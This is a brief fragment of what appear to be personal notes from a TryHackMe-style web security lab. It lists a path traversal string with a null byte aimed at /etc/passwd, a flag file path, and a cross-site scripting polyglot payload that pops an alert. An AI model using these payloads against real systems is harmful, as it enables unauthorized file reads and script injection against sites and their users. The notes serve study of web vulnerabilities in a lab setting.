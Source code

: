 /../../../../etc/passwd%00
null byte

/home/flag.txt


Polyglots:
![[Screenshot from 2023-08-20 10-44-53.png]]
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

